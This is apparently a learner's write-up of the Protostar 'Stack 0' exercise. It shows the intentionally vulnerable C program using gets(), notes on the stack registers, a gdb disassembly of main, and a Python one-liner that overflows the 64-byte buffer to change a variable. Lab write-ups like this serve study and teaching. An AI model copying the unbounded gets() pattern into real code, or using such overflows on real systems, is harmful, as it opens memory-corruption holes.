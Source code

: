 w## Stack 0
code : 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

1. Modifying the variables, How? 

**volatile** :  tell compiler do not optimize the usage of this variable

### Vulnerability
gets -> get user input (but never use this, impossible to tell how many characters to get)

### Steps to exploit
ebp -> base pointer register 
esp -> stack pointer
eip -> instruction pointer

start -> we push ebp into the stack, and move ebp, esp
(reverse)
leave -> mov esp, ebp then pop ebp

sub esp, 0x60
-> substract 0x60 on the esp (point lower position)
``` binary
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.

```

```bash
user@protostar:/opt/protostar/bin$ python -c "print 'A' * 64" | ./stack0
Try again?
```

``` bash
user@protostar:/opt/protostar/bin$ python -c "print 'A' * 65" | ./stack0
you have changed the 'modified' variable

```